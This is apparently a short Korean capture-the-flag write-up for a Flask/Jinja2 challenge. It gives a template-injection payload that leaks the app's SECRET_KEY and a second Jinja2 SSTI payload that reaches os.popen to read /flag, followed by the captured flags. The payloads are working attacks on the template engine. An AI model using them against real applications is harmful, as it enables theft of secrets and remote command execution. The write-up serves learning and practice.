 # 라업
1. app.secret_key flag
```
{{config['SECRET_KEY']}}
```


2. server flag 
- SSTI + RCE
- [참고](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat /flag").read()}}{%endif%}{% endfor %}
```

# 플래그
KO{J1nj42_1s_n0t_s4f3~}
K0{sst1_m4k3_m3_cr4zzzy}

# 설명
ssti 취약점을 통한 어플리케이션 레벨의 데이터 탈취 및 RCE